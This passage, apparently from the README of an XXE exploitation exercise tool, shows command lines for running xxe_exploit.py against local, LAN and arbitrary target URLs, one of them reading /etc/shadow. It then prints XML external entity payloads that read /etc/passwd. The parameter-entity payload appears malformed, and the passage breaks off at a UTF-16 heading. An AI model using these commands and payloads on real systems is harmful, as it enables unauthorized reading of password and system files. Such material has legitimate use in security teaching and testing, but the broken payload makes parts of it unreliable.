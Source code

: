 ### 2. Run Basic XXE Exploitation

```bash
python3 ex01/xxe_exploit.py --url http://localhost:5000
```

### 3. Advanced Usage Examples

```bash
# Target custom file with verbose logging
python3 ex01/xxe_exploit.py --url http://localhost:5000 --target-file /etc/shadow --verbose

# Extended timeout for slow applications
python3 ex01/xxe_exploit.py --url https://target.com --timeout 60

# Development testing without SSL verification
python3 ex01/xxe_exploit.py --url http://192.168.1.100:8000 --no-ssl-verify
```

## Payload Types Tested

### 1. Classic DTD XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```

Tests standard XXE with external DTD declaration for direct file access.

### 2. Parameter Entity XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///tmp/xxe.txt'>">
    %eval;
    %exfiltrate;
]>
<root>
    <data>%file;</data>
</root>
```

Tests parameter entities for bypassing XML parsing restrictions and filters.

### 3. UTF-16 Encoded XXE
